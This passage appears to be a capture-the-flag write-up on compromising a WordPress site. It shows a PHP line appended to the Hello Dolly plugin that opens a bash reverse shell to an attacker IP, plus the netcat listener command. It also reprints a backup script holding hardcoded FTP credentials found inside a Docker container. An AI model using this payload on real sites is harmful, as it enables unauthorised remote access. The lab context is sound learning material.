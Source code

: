 ## Reverse shell

Now connected as `jeff` (who is admin BTW), we should be able to get a reverse shell.

Unfortunately, we can't modify the `404.php` template from the "Theme Editor" because of the following error:

~~~
Something went wrong. Your change may not have been saved. Please try again. There is also a chance that you may need to manually fix and upload the file over FTP.
~~~

Let's try with the plugins. Go to "Plugins > PluginEditor" from the menu. From the dropdown on the right hand side, select "Hello Dolly" and click on the "Select" button. It will show the code for the `hello.php` template. Append the following content to the file and click on the "Update file" button.

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.50.72/4444 0>&1'");
```

Now, open a listener (`rlwrap nc -nlvp 4444`) and activate the plugin ("Plugins > Installed plugins").

We now have a reverse shell.

## Docker evasion

It turns out that we land in a docker container, what is confirmed by `leanpeas.sh`.

After trying to evade docker and failing due to a lack of permission to execute `docker`, I decided to exploit something else.

There is an interesting `ftp_backup.php` script under `/var/www/html/`:

```php
<?php
/* 
    Todo: I need to finish coding this database backup script.
    also maybe convert it to a wordpress plugin in the future.
*/
$dbFile = 'db_backup/backup.sql';
$ftpFile = 'backup.sql';

$username = "backupmgr";
$password = "SuperS1ckP4ssw0rd123!";

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");
}

$msg = "Upload failed";
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {
    $msg = "$file was uploaded.\n";
}

echo $msg;
ftp_close($conn_id); 
```
